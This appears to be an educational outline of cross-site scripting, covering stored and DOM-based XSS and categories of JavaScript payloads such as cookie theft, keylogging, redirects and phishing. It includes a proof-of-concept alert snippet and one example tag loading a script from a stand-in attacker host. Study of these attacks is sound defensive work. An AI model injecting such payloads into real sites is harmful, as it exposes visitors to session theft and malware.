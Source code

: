 ### Stored XSS (Persistent) #StoredXSS #Persistent #Database
The malicious script is permanently stored on the target server (e.g., in a database, message forum, comment field). Victims execute the script when they browse the affected page.
#### How Stored XSS Works #Mechanism #Example
#### High-Impact Nature #Risk #WidespreadEffect #SelfPropagating
Often considered more dangerous as it affects any user visiting the compromised page. Can lead to XSS worms.
### DOM-based XSS #DOMXSS #ClientSide #JavaScriptManipulation
The vulnerability lies in the client-side code itself. The script payload is executed as a result of modifying the DOM environment in the victim's browser. The server might be completely unaware of the attack.
#### How DOM-based XSS Works #Mechanism #Example #SourcesSinks
Involves untrusted data (source) being processed by unsafe JavaScript functions or DOM properties (sink).
#### Distinction from Reflected/Stored #KeyDifference #ClientFocus
Payload execution depends solely on client-side logic, not necessarily server reflection or storage.

## JavaScript XSS Payloads #Exploitation #Payloads #JavaScriptCode
Common types of malicious JavaScript code used in XSS attacks.
### Basic Alert/Proof-of-Concept #PoC #AlertBox #Testing
Simple scripts like `alert('XSS')` or `alert(document.domain)` used to confirm vulnerability existence.
### Cookie/Session Token Theft #SessionHijacking #Credentials #DataExfiltration
Code designed to steal `document.cookie` and transmit it to an attacker-controlled server.
### Keystroke Logging #Keylogger #Spying #InputCapture
Using event listeners (`onkeypress`, `onkeydown`) to capture sensitive user input like passwords or credit card numbers.
### DOM Manipulation #DOMTampering #Defacement #UIModification
Altering page content, structure, or appearance for defacement, phishing, or social engineering.
### Redirects and Phishing #Phishing #Redirection #MaliciousSites
Using `window.location` or similar methods to redirect users to fake login pages or malware sites.
### Loading External Scripts #RemoteCode #Malware #FurtherExploitation
Injecting `<script src="http://attacker.com/evil.js"></script>` to load more complex or dynamically updated attack code.
### Exploiting Browser Features/APIs #WebAPIs #Geolocation #Webcam #MicAccess
Leveraging HTML5 APIs or browser features (with user permission prompts, sometimes) for malicious purposes.

